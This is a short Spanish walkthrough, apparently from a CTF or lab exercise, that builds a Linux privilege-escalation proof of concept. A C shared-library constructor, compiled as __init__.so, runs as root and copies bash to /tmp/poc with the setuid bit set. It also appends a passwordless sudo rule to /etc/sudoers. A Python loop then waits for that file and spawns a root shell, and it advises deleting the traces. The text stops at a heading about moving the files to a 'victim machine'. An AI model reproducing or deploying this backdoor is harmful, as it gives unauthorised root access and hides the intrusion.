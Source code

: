 ### Compilacion de Lib.c

Primero construi este lib.c para despues compilarlo

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void a() __attribute__((constructor));

void a() {
	if(getuid() == 0) {
		setuid(0);
		setgid(0);
		const char *shell = "cp /bin/bash /tmp/poc; "
				    "chmod u+s /tmp/poc; "
				    "grep -qxF 'ALL ALL=NOPASSWD: /tmp/poc' /etc/sudoers || "
				    "echo 'ALL ALL=NOPASSWD: /tmp/poc' | tee -a /etc/sudoers > /dev/null &";
		system(shell);
	}

}
```

```bash
gcc -shared -fPIC -o __init__.so lib.c
```

Se me creo la compilacion final llamado `__init__.so`. Pero no termina aca

Luego saque esta parte de python del PoC

```python
import time
while True:
    try:
        import importlib
    except:
        pass
    if __import__("os").path.exists("/tmp/poc"):
        print("Got shell!, delete traces in /tmp/poc, /tmp/malicious")
        __import__("os").system("sudo /tmp/poc -p")
        break
    time.sleep(1)
```

Y lo guarde como `e.py`

Ahora me falta crear un script que automatize la transferencia de estos 2 archivos hacia la maquina victima.

### Script Bash Automatizacion
